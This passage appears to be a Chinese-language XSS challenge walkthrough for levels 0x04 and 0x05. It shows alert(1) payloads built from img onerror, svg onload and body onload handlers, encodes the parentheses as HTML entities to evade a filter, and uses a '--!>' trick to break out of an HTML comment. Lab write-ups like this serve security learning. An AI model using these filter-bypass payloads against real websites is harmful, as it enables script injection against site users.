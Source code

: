 ```
<img src=1 onerror="alert&#x28;&#x31;&#x29;&#x3b;">  
#引入外部图片 当图片不存在时，将触发 `onerror`事件


<svg onload=alert&#x28;&#x31;&#x29;&#x3b;>
#SVG 意为矢量图形    onload 事件会图像加载完成后立即发生
    
<body onload=alert&#x28;&#x31;&#x29;&#x3b;>
#onload 事件会在页面加载完成后立即发生
```

由于过滤了（）所以我们用html编码一下，在burpsuite里面的编码器模块，选择HTML编码

![image-20211223153513790](https://gitee.com/xxb667/img/raw/master/img/image-20211223153513790.png)

![image-20211223163434068](https://gitee.com/xxb667/img/raw/master/img/image-20211223163434068.png)



### 0x04:

同上

```
<svg onload=alert&#x28;&#x31;&#x29;&#x3b;>
#SVG 意为矢量图形    onload 事件会图像加载完成后立即发生
```



![image-20211223163515492](https://gitee.com/xxb667/img/raw/master/img/image-20211223163515492.png)

### 0x05:

![image-20211223153720170](https://gitee.com/xxb667/img/raw/master/img/image-20211223153720170.png)

我们输入的JavaScript代码被直接注释掉了   在HTML里面是注释的意思

我们要想办法绕过注释

如果我们直接闭合前面的注释他会把我们的--替换为 一个表情

如下：

```
!-- 😂<img src=1 onerror="alert&#x28;&#x31;&#x29;&#x3b;">  
 -->
```

构造payload：

```
--!><img src=1 onerror="alert&#x28;&#x31;&#x29;&#x3b;">  
```

分析：在HTML中<!--  --!>  也是可以当作注释

![image-20211223163658223](https://gitee.com/xxb667/img/raw/master/img/image-20211223163658223.png)
